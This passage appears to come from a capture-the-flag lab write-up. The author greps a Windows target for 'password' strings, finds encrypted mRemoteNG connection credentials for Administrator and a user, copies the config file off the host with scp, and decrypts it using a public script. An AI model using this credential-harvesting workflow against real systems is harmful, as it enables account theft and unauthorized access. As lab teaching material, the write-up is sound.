 ```
    Get-ChildItem -Recurse -File -Force -ErrorAction SilentlyContinue -Filter $Filter | Select-String -Pattern $Pattern -ErrorAction SilentlyContinue | ForEach-Object {
        Write-Host "$($_.Path):$($_.LineNumber):" -NoNewline -ForegroundColor "Blue"
        Write-Host-Highlighted -Text $_.Line -Highlight "password"
        Write-Host ""
    }
}
```

Let's search across whole target
```
PS C:\Users\L4mpje> cd \ 
PS C:\> Recursive-Grep -Filter "*.xml" -Pattern "password"
```

There is a lot of results, but thanks to said highlighting, interesting things are easier to spot f.e.
```
C:\Users\L4mpje\AppData\Roaming\mRemoteNG\confCons.xml:3: <Node Name="DC" Type="Connection" Descr="" Icon="mRemoteNG" Panel="General" Id="500e7d58-662a-44d4-aff0-3a4f547a3fee" Username="Administrator" Domain="" password="aEWNFV5uGcjUHF0uS17QTdT9kVqtKCPeoC0Nw5dmaPFjNQ2kt/zO5xDqE4HdVmHAowVRdC7emf7lWWA10dQKiw==" Hostname="127.0.0.1" Protocol="RDP"

<SNIP>

C:\Users\L4mpje\AppData\Roaming\mRemoteNG\confCons.xml:4:    <Node Name="L4mpje-PC" Type="Connection" Descr="" Icon="mRemoteNG" Panel="General" Id="8d3579b2-e68e-48c1-8f0f-9ee1347c9128" Username="L4mpje" Domain="" password="yhgmiu5bbuamU3qMUKc/uYDdmbMrJZ/JvR1kYe4Bhiu8bXybLxVnO0U9fKRylI7NcB9QuRsZVvla8esB" Hostname="192.168.1.75" Protocol="RDP"

<SNIP>
```

It seems that we have found configuration files for `mRemoteNG` which contains Base64 encoded passwords for `Administrator` and `L4mpje` users, quick [google search](https://www.errno.fr/mRemoteNG) show thats we could actually decrypt those passwords. There is even a [script](https://github.com/gquere/mRemoteNG_password_decrypt) that could be used for that. Let's exfiltrate this configuration run this script against it.

```
git clone https://github.com/gquere/mRemoteNG_password_decrypt.git && \
cd mRemoteNG_password_decrypt && \
scp l4mpje@$TARGET_IP:~/AppData/Roaming/mRemoteNG/confCons.xml . && \
./mremoteng_decrypt.py confCons.xml
```
```
Cloning into 'mRemoteNG_password_decrypt'...
remote: Enumerating objects: 11, done.
remote: Counting objects: 100% (11/11), done.
remote: Compressing objects: 100% (9/9), done.
remote: Total 11 (delta 2), reused 10 (delta 2), pack-reused 0 (from 0)
Receiving objects: 100% (11/11), done.
Resolving deltas: 100% (2/2), done.
l4mpje@10.129.82.228's password: 
confCons.xml                                                                                                                                                      100% 6316    85.1KB/s   00:00    
Name: DC
Hostname: 127.0.0.1
Username: Administrator
Password: ****************

Name: L4mpje-PC
Hostname: 192.168.1.75
Username: L4mpje
Password: ************
```
